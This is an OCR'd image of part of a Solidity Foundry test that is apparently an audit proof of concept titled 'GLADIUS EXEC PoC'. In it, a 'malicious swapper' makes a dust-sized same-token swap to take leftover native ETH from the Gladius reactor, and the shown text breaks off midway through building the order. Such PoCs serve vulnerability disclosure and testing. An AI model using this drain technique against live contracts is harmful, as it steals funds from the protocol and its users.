 ```solidity
                request.input.amount
            ),
            outputs: outputs,
            fillThreshold: 1
        });
        orderHash = order.hash();

        return (
            SignedOrder(
                abi.encode(order),
                signOrder(swapperPrivateKey, address(permit2), order)
            ),
            orderHash
        );
    }

    //-------------------------- GLADIUS EXEC PoC--------------------------

    function test_Gain_Remaining_GladiusNativeBalance_Via_Swap_Dust() public {
        //> some remaining native token in Gladius Reactor
        address someRandomUser = vm.addr(1);
        vm.startPrank(someRandomUser);
        vm.deal(someRandomUser, 10 ether);
        assertEq(address(someRandomUser).balance, 10 ether);

        _createRemainingEtheInGladiusReactor();
        vm.stopPrank();

        //> initial setting
        vm.prank(PROTOCOL_FEE_OWNER);
        reactor.setProtocolFeeController(address(feeController));

        uint256 inputBalance = 10**18 * 100;
        uint256 deadline = block.timestamp + 1000;
        tokenOut = tokenIn; //> swap same input-output
        tokenIn.mint(address(swapper), uint256(inputBalance));

        //> Malicious swapper initial attack
        uint256 inputAmount = 50; //DUST AMOUNT
        uint256 outputAmount = inputAmount;
        tokenIn.forceApprove(swapper, address(permit2), inputAmount);

        uint256 baseFee = feeController.baseFee();
        uint256 feeAmount = uint256(outputAmount).mulDivUp(baseFee, 100_000);
        tokenIn.forceApprove(swapper, address(reactor), outputAmount + feeAmount);

        ResolvedOrder memory order = ResolvedOrder({
            info: OrderInfoBuilder
                .init(address(reactor))
                .withSwapper(swapper)
                .withDeadline(deadline),
            input: InputToken(tokenIn, inputAmount, inputAmount),
            outputs: OutputsBuilder.single(
                address(tokenOut),
                outputAmount,
                swapper
            ),
            sig: hex"00",
            hash: bytes32(0)
        });

        (
            SignedOrder memory signedOrder,
```